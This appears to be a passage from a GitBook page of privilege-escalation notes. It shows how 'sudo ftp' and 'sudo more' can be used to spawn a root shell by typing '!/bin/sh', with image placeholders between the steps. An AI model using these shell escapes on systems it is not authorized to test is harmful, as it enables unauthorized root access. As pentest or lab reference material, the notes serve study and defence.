 ```
sudo ftp
ftp> !/bin/sh
```

<figure><img src="../../.gitbook/assets/image (10) (6) (1).png" alt=""><figcaption></figcaption></figure>

## **more**

Need to enter the second command while scrolling through the output.

**Victim**

```
TERM= sudo more /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
